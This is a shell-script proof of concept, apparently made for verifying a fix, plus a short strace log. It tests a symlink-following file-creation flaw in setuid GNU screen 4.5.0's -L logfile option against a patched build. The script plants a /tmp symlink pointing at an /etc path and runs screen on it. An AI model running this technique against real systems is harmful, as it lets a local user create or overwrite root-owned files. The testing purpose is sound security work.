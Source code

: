 # Example vulnerable: ./exploit_symlink_poc.sh /usr/bin/screen /etc/screen_poc /tmp/screenlog-poc
# Example patched:    ./exploit_symlink_poc.sh ./patched-screen-4.5.1/screen /etc/screen_poc /tmp/screenlog-poc
set -eu
BIN=${1:-/usr/bin/screen}
TARGET=${2:-/etc/screen_poc}
LINK=${3:-/tmp/screenlog-poc}

cleanup() { rm -f "$LINK" 2>/dev/null || true; }
trap cleanup EXIT INT TERM

printf "[+] Linking %s -> %s\n" "$LINK" "$TARGET"
rm -f "$LINK"
ln -sf "$TARGET" "$LINK"
ls -l "$LINK" || true

printf "[+] Removing target if possible (to observe creation)\n"
rm -f "$TARGET" 2>/dev/null || true

printf "[+] Running: %s -L %s\n" "$BIN" "$LINK"
# Use strace to capture open/creat if present
STRACE_LOG=$(mktemp /tmp/screen_poc.XXXXXX)
if echo "$BIN" | grep -q 'patched-screen-4.5.1'; then
  # patched expects -L to enable and -Logfile to set path; will not pre-open
  strace -f -o "$STRACE_LOG" -e trace=open,openat,creat,link,symlink,rename "$BIN" -L -Logfile "$LINK" || true
else
  strace -f -o "$STRACE_LOG" -e trace=open,openat,creat,link,symlink,rename "$BIN" -L "$LINK" || true
fi

printf "[+] Post-run target status:\n"
ls -l "$TARGET" 2>/dev/null || echo "[i] Target not present"
stat "$TARGET" 2>/dev/null || true

printf "\n[+] Relevant strace lines (path resolution and opens):\n"
grep -nE "$(echo "$TARGET" | sed 's,/,\\/,g')|$(basename "$LINK")" "$STRACE_LOG" || true

echo "[i] Full strace log at: $STRACE_LOG"



exploit_logs_vulnerable
[04:54:41]
Strace (vulnerable binary): openat(AT_FDCWD, "/tmp/screenlog-poc", O_WRONLY|O_CREAT|O_TRUNC, 0666) = -1 EACCES (Permission denied). This occurs immediately during option parsing before tty setup, demonstrating premature file open following symlink. Our /usr/bin/screen (4.5.0, setuid root) also exhibits this behavior. No creation of /etc/screen_poc due to hardened /tmp permissions in this container.
